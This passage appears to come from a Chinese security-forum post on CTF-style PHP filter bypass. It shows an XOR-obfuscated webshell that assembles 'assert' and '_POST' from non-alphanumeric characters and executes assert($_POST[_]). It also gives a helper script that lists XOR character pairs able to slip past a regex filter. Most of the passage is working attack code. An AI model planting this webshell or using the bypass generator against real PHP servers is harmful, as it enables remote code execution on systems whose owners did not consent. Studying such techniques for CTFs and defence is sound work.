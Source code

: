 ```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
/*这里的整个拼接流程还是比较简单的*/
```

下面是忘记了从哪里扒的一个可以打印出来各种字符异或的脚本

![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1fc95626400c502d858e1cc50e6c325758204c07.png)

```php
<?php
    $myfile=fopen("xor_rce.txt","w");
    $contents="";
    for($i=0;$i<256;$i++){
        for($j=0;$j<256;$j++){
            if($i<16){
                $hex_i='0'.dechex($i);
            }
            else{
                $hex_i=dechex($i);
            }
            if($j<16){
                $hex_j='0'.dechex($j);
            }
            else{
                $hex_j=dechex($j);
            }
            $preg='/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';    // 根据题目给的正则表达式修改即可
            if(preg_match($preg,hex2bin($hex_i))||preg_match($preg,hex2bin($hex_j))){
                echo "";
            }
            else{
                $a='%'.$hex_i;
                $b='%'.$hex_j;
                $c=(urldecode($a)^urldecode($b));
//                此处范围是将按位或运算得到的字符限定在可见字符范围内
                if(ord($c)>=32&ord($c)<=126){
                    $contents=$contents.$c." ".$a." ".$b."\n";
                }
            }
        }
    }
    fwrite($myfile,$contents);
    fclose($myfile);
?>
```

根据这个脚本打印一下参与异或的两个参数和异或出来的字符，然后根据我们的需求去进行查找就可以了，注意一下格式，别漏`;`之类的必备符号。这里还有一个配套的python的脚本，用来查找我们的需求字符。
